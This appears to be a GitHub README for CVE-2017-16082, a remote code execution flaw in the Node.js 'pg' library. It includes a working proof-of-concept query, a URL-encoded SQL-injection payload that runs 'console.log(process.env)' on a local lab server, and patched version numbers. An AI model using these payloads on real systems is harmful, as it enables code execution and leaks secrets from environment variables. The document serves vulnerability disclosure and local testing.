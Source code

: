 ## CVE-2017-16082

### Overview

Affected versions of  `pg`  contain a remote code execution vulnerability that occurs when the remote database or query specifies a crafted column name.

There are two specific scenarios in which it is likely for an application to be vulnerable:

1.  The application executes unsafe, user-supplied sql which contains malicious column names.
2.  The application connects to an untrusted database and executes a query returning results which contain a malicious column name.

## Proof of Concept

```
const { Client } = require('pg')
const client = new Client()
client.connect()

const sql = `SELECT 1 AS "\\'/*", 2 AS "\\'*/\n + console.log(process.env)] = null;\n//"`

client.query(sql, (err, res) => {
  client.end()
})
```

### Remediation

-   Version 2.x.x: Update to version 2.11.2 or later.
-   Version 3.x.x: Update to version 3.6.4 or later.
-   Version 4.x.x: Update to version 4.5.7 or later.
-   Version 5.x.x: Update to version 5.2.1 or later.
-   Version 6.x.x: Update to version 6.4.2 or later. ( Note that versions 6.1.6, 6.2.5, and 6.3.3 are also patched. )
-   Version 7.x.x: Update to version 7.1.2 or later. ( Note that version 7.0.2 is also patched. )

### Local test 💣

`git clone https://github.com/nulldreams/CVE-2017-16082.git`

`cd CVE-2017-16082`

`npm i && node server.js`

Send a request to `localhost:5000/api/v1/users?id=1`
Result
```json
[
    {
        "id": 1,
        "username": "wubba",
        "password": "123",
        "createdAt": "2018-11-27T09:19:54.000Z",
        "updatedAt": "2018-11-27T09:19:54.000Z"
    }
]
```
Now, send a request using a payload like this `1;SELECT 1 AS "\']=0;console.log(process.env)//"` and encode in [url encoder](https://meyerweb.com/eric/tools/dencoder/)

Final url: `localhost:5000/api/v1/users?id=1%3BSELECT%201%20AS%20%22%5C%27%5D%3D0%3Bconsole.log(process.env)%2F%2F%22`
```json
[
    {
        "id": 1,
        "username": "wubba",
        "password": "123",
        "createdAt": "2018-11-27T09:19:54.000Z",
        "updatedAt": "2018-11-27T09:19:54.000Z"
    },
    {
        "\\": 0
    }
]
```

Check the terminal server.
